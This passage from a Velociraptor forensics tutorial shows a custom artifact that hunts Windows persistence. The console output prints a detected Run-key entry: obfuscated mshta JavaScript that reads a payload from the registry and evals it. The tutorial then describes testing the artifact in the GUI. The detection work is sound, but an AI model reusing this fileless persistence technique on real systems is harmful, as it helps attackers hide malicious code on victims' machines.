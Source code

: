 ``` {.sourceCode .console}
F:\>velociraptor.exe --definitions artifacts artifacts collect Windows.Persistence.Powershell
INFO:2018/09/28 21:42:18 Loaded 34 built in artifacts
+--------------------------------+--------------------------------+---------------------------+
|           ValueName            |            Contents            |          ModTime          |
+--------------------------------+--------------------------------+---------------------------+
| HKEY_USERS\S-1-5-21-546003962- | about:<script>c1hop="X642N10"; | 2018-09-28T20:20:53-07:00 |
| 2713609280-610790815-1001\Soft | R3I=new%20ActiveXObject("WScri |                           |
| ware\Microsoft\Windows\Current | pt.Shell");QR3iroUf="I7pL7";k9 |                           |
| Version\Run\"C:\Windows\system | To7P=R3I.RegRead("HKCU\\softwa |                           |
| 32\mshta.exe"                  | re\\bkzlq\\zsdnhepyzs");J7UuF1 |                           |
|                                | n="Q2LnLxas";eval(k9To7P);JUe5 |                           |
|                                | wz3O="zSfmLod";</script>       |                           |
+--------------------------------+--------------------------------+---------------------------+
Artifact: Windows.Persistence.Powershell
```

Great! This works and only returns values that match the yara signature
we developed.

Testing the artifact
====================

Let\'s test this artifact for real now. We restart the frontend with the
\--definition flag and this makes the new artifact available in the GUI
under the Artifact Collector flow. The GUI also shows the entire
artifact we defined so we can see what VQL will be run:

![image](powershell1.png)

Launching the flow appears to work and shows exactly the same result as
we collected on the command line:
